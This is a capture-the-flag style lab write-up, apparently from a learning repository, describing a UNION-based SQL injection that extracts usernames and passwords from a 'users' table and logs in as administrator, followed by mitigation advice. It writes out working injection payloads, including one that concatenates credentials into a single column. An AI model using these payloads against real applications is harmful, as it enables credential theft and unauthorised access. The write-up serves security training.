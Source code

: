 # SQL Injection - UNION Attack: Retrieve Multiple Values in a Single Column

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```sql
' UNION SELECT NULL NULL--
```
Response: HTTP/2 200 OK

### 3. Identified Column Accepting String Output

```sql
' UNION SELECT 'a',NULL--
```
Response: HTTP/2 500 Internal Server

```sql
' UNION SELECT NULL,'a'--
```
Response: HTTP/2 200 OK

### 4. Retrieved Data from Users Table

```sql
' UNION SELECT NULL,username||'~'||password FROM users--
```
![burpsuite response](./misc-images/06-1.png)

This retrieved all usernames and passwords including the administrator.

### 5. Retrieved Data from Users Table

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how to retrieve multiple values in a single column using UNION-based SQL injection.

---

## Notes


